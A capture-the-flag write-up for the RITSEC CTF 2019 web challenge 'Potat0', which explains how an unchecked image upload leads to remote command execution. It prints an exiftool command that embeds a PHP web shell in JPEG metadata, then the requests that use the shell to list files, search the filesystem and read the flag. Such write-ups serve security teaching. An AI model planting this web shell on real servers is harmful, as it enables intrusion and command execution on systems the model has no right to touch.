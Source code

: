 # RITSEC CTF 2019 – Potat0

* **Category:** web
* **Points:** 158

## Challenge

> http://ctfchallenges.ritsec.club:8003/
>
> Flag format is RS_CTF{}
>
> Author: Pablo Potat0

## Solution

Connecting to the web site, an interesting HTML comment can be discovered.

```html
<article>
<link rel="stylesheet" type="text/css" href="style.css">
<a href="https://facebook.com/groups/RITSEC.group/" target="_blank">
  <svg version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px"
	 width="30px" height="30px" viewBox="0 0 30 30" enable-background="new 0 0 30 30" xml:space="preserve">
   <path id="facebook" fill="#ffffff" d="M17.252,11.106V8.65c0-0.922,0.611-1.138,1.041-1.138h2.643V3.459l-3.639-0.015
	c-4.041,0-4.961,3.023-4.961,4.961v2.701H10v4.178h2.336v11.823h4.916V15.284h3.316l0.428-4.178H17.252z"/>
  </svg>
</a>

<a href="https://instagram.com/_ritsec_" target="_blank">
  <svg version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px"
	 width="30px" height="30px" viewBox="0 0 30 30" enable-background="new 0 0 30 30" xml:space="preserve">
   <path id="instagram" fill="#ffffff" d="M22.107,3.415H7.893c-2.469,0-4.479,2.007-4.479,4.477v4.73v9.486c0,2.469,2.01,4.479,4.479,4.479h14.215
	c2.469,0,4.479-2.01,4.479-4.479v-9.486v-4.73C26.586,5.421,24.576,3.415,22.107,3.415 M23.393,6.086l0.512-0.004v0.511v3.416
	l-3.916,0.014l-0.012-3.928L23.393,6.086z M11.693,12.622c0.742-1.028,1.945-1.7,3.307-1.7s2.564,0.672,3.307,1.7
	c0.484,0.67,0.771,1.49,0.771,2.379c0,2.248-1.828,4.078-4.078,4.078c-2.248,0-4.078-1.83-4.078-4.078
	C10.922,14.112,11.211,13.292,11.693,12.622 M24.328,22.107c0,1.225-0.994,2.219-2.221,2.219H7.893
	c-1.225,0-2.219-0.994-2.219-2.219v-9.486h3.459C8.832,13.356,8.664,14.159,8.664,15c0,3.494,2.842,6.335,6.336,6.335
	s6.336-2.842,6.336-6.335c0-0.842-0.17-1.645-0.467-2.379h3.459V22.107z"/>
  </svg>
</a>
 
  
</a>
<!-- upload and photos not yet linked -->
</article>
```

So you can discover the existence of two more pages:
* [http://ctfchallenges.ritsec.club:8003/upload.php](http://ctfchallenges.ritsec.club:8003/upload.php)
* [http://ctfchallenges.ritsec.club:8003/photos.php]http://ctfchallenges.ritsec.club:8003/photos.php

Basically the web application allows the upload of an image that will be displayed into a gallery. The upload functionality is vulnerable because it doesn't check the content of the image and it doesn't convert it in order to remove unwanted content.

As a consequence, a [shell](shell.php.jpeg) can be inserted into the image.

```
root@m3ss4p0:~# cp cat.jpeg shell.php.jpeg
root@m3ss4p0:~# exiftool -DocumentName="<?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?>" shell.php.jpeg
    1 image files updated
```

The image is renamed, but it can be referenced to execute commands remotely.

```
http://ctfchallenges.ritsec.club:8003/uploads/10_0_0_37.php.jpeg?cmd=ls%20-al%20..

total 44
drwxr-xr-x 3 www-data www-data  4096 Nov 15 13:31 .
drwxr-xr-x 1 root     root      4096 Apr  3  2019 ..
-rw-r--r-- 1 www-data www-data 11321 Apr  3  2019 index.html
-rw-rw-r-- 1 root     root      1713 Nov 15 13:23 index.php
-rwxrwxr-x 1 root     root      2001 Nov 15 13:23 lib.php
-rwxrwxr-x 1 root     root      1871 Nov 15 13:23 photos.php
-rw-rw-r-- 1 root     root       809 Nov 15 13:23 style.css
-rwxrwxr-x 1 root     root      1331 Nov 15 13:23 upload.php
drwxr-xr-x 2 www-data www-data  4096 Nov 15 17:58 uploads



http://ctfchallenges.ritsec.club:8003/uploads/10_0_0_37.php.jpeg?cmd=find%20/%20-name%20flag*%202%3E%20/dev/null

/home/flag.txt
/tmp/npm-6-00351b95/registry.npmjs.org/flagged-respawn
/usr/local/lib/node_modules/gulp/node_modules/flagged-respawn
/usr/local/lib/node_modules/grunt-cli/node_modules/flagged-respawn
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS15/flags
/sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS23/flags
/sys/devices/platform/serial8250/tty/ttyS13/flags
/sys/devices/platform/serial8250/tty/ttyS31/flags
/sys/devices/platform/serial8250/tty/ttyS4/flags
/sys/devices/platform/serial8250/tty/ttyS21/flags
/sys/devices/platform/serial8250/tty/ttyS11/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS28/flags
/sys/devices/platform/serial8250/tty/ttyS18/flags
/sys/devices/platform/serial8250/tty/ttyS9/flags
/sys/devices/platform/serial8250/tty/ttyS26/flags
/sys/devices/platform/serial8250/tty/ttyS16/flags
/sys/devices/platform/serial8250/tty/ttyS7/flags
/sys/devices/platform/serial8250/tty/ttyS24/flags
/sys/devices/platform/serial8250/tty/ttyS14/flags
/sys/devices/platform/serial8250/tty/ttyS5/flags
/sys/devices/platform/serial8250/tty/ttyS22/flags
/sys/devices/platform/serial8250/tty/ttyS12/flags
/sys/devices/platform/serial8250/tty/ttyS30/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS20/flags
/sys/devices/platform/serial8250/tty/ttyS10/flags
/sys/devices/platform/serial8250/tty/ttyS29/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS19/flags
/sys/devices/platform/serial8250/tty/ttyS27/flags
/sys/devices/platform/serial8250/tty/ttyS17/flags
/sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS25/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags



http://ctfchallenges.ritsec.club:8003/uploads/10_0_0_37.php.jpeg?cmd=cat%20/home/flag.txt

RS_CTF{FILE_UPLOAD_ISN'T_SECURE}
```

The flag is the following.
```
RS_CTF{FILE_UPLOAD_ISN'T_SECURE}
```